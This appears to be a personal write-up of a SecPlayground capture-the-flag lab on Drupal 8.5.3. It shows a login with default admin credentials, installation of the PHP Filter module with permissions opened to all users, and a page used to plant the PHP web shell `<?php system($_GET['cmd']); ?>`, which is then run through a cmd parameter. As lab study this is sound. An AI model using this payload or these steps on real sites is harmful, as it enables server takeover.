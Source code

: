# bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`

1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt
